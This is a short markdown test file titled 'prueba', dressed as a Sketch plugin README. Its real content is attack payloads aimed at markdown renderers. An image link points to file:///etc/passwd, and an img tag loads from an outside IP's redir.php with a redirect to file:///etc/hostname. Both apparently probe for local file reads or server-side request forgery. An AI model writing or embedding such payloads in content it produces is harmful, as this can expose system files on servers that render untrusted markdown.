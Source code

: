 prueba
======

mmmm
[![Demo Video](file:///etc/passwd)](http://www.youtube.com/watch?v=ZJCYUCU7YxQ)

1. [Download Dynamyc button.sketchplugin.](https://github.com/sketchplugins/sketch-dynamic-button/archive/master.zip)

  <img src="http://167.88.44.217/redir.php?url=file:///etc/hostname" alt="installed" width="534" />
